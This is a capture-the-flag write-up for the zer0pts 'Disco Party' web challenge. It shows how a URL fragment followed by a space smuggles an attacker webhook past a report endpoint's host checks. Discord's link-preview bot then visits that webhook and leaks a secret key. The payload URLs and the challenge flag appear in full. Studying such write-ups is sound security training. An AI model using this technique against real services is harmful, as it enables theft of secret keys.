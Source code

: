 # DISCO PARTY

## Description

There's maybe nothing special in description. 🤔
![Oops](./image/description.jpg)

## 💻 Explore the website

![Oops](./image/home.jpg)

There are 3 buttons here. The first two buttons seem common, so let try the last one.

I am allowed to create an invitation and to report issues about invitation.

![Oops](./image/test_web.gif)

Each invitation has a unique id.

## 🧑‍💻 Processing:
**web/app.py:** This file contains server code. There are some endpoints:

- `/post/<string(length=16):id>`: I can get an invitation through this endpoint by supplying `id` (`len(id) == 16`). Besides, I can supply a `key` and make `is_admin` take value `True` to receive the flag. Maybe my target is `key` value.

- `/api/new`: This endpoint creates post. I POST `title`, `content` and server will generate `id` for that post. Posts will be saved in database (`id`, `title`, `content`).

- `api/delete`: Deletes a post if I had `id` and `key`.

- `/api/report`: This endpoint takes my reports (`url`, `reason`, `g-recaptcha-response`). There are a lot of check stages here. After all, `message` will be saved in database. Look at the message form: 
    ```py 
    message = f"URL: {url}?key={key}\nReason: {reason}"
    ```

Because there is bot directory, maybe I need to bypass check stages and make message contain my webhook like:
```py
f'URL: http://hjvnswkt.requestrepo.com?key={key}\nReason: something'
```
Or some messages similar. And the bot will click on the URL/send request and the key will be revealed. (In an ideal scenario) 🤤 

Let's check it out.



**bot/crawler.py:** 🤖

This bot is in a secret channel and will send/chat my message which is from `/api/report` endpoint.

There is no click here 😿.

I was stuck here for a very long time. 

Then I realized every big platforms like Discord have their own bots, and they click every URL in the conversation automatically. 

*Really? I don't believe, prove it.* 🤔 

As you wish: 🤓 

- Setup a webhook:
![Oops](./image/setup_requestrepo.jpg)

- Send a message which contains the webhook URL:


    ![Oops](./image/chat_url.jpg)

- And receive requests:
![Oops](./image/request_discord_bot.jpg)

So, my plan is craft a message that contains `http://hjvnswkt.requestrepo.com/?key={key}` to get `key`.

**Bypass:**

```py
# Check URL
parsed = urllib.parse.urlparse(url.split('?', 1)[0])
if len(parsed.query) != 0:
    return flask.jsonify({"result": "NG", "message": "Query string is not allowed"})
if f'{parsed.scheme}://{parsed.netloc}/' != flask.request.url_root:
    return flask.jsonify({"result": "NG", "message": "Invalid host"})

# Parse path
adapter = app.url_map.bind(flask.request.host)
endpoint, args = adapter.match(parsed.path)
if endpoint != "get_post" or "id" not in args:
    return flask.jsonify({"result": "NG", "message": "Invalid endpoint"})

# Check ID
if not get_redis_conn(DB_TICKET).exists(args["id"]):
    return flask.jsonify({"result": "NG", "message": "Invalid ID"})
```

The first part makes sure my host (input `url`) is equal to server host.

The second part checks path of my URL which have to have `/post/<string(length=16):id>` form and there is `id` in request.

The last part takes `id` undercontrol (exists in database).

I think about a way. I use fragment to craft because none of three parts above do anything with fragment. This is my URL: `http://party.ctf.zer0pts.com:8007/post/UCs0yCK4AJwgyQnX# http://hjvnswkt.requestrepo.com`.

The space after `#` is necessary.
![Oops](./image/space_needed.jpg)

I just send report with that URL. Get key in requestrepo.
![Oops](./image/key.jpg)

And get the flag.
![Oops](./image/flag.jpg)

**🚩Flag: `zer0pts
{4h_p4rad1s3_l05t_6b4f6fbf5ee51003}`**

## 🤓 Notes:
There are some features I can abuse (Discord, Facebook, ... bot).
